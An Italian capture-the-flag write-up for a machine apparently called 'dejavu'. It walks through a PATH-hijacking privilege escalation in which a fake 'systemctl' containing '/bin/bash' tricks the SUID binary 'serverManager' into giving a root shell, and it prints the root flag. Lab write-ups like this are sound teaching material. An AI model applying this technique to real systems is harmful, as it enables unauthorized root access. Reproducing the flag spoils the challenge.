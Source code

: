 
```
which systemctl
```
	which serve per localizzare il percorso di un eseguibile
```
/usr/bin/systemctl
```

```
echo '/bin/bash' > systemctl
```
	Stiamo creando un file di testo normale con il contenuto `/bin/bash`che, una volta eseguito, avvierà una shell.
	
```
chmod +x systemctl
```
	 Dobbiamo rendere il nostro falso `systemctl`eseguibile, altrimenti verrà ignorato.
	 
```
export PATH=.:$PATH
```
	qui aggiungiamo `.`(la nostra directory di lavoro corrente) all'inizio di PATH. Questo significa che il sistema cercherà i binari nella nostra directory di lavoro corrente prima di cercare nel resto di PATH, e troverà il nostro falso `systemctl`prima di quello autentico.
	
```
which systemctl
```
	Per verificare che il nostro fake `systemctl`verrà eseguito se viene utilizzato il comando `systemctl`, utilizziamo `which`. `which`in pratica esegue la ricerca PATH per noi e stampa i risultati.
	
```
./systemctl
```
	Esegui il binario vulnerabile!

```
./serverManager
```

```
[dogpics@dejavu ~]$ ./serverManager 
Welcome to the DogPics server manager Version 1.0
Please enter a choice:
0 -	Get server status
1 -	Restart server
0
```

```
whoami
```
```
[root@dejavu ~]# whoami
root
```

```
[root@dejavu ~]# ls /root
root.txt
[root@dejavu ~]# cat /root/root.txt
dejavu{5ad931368bdc46f856febe4834ace627}
```
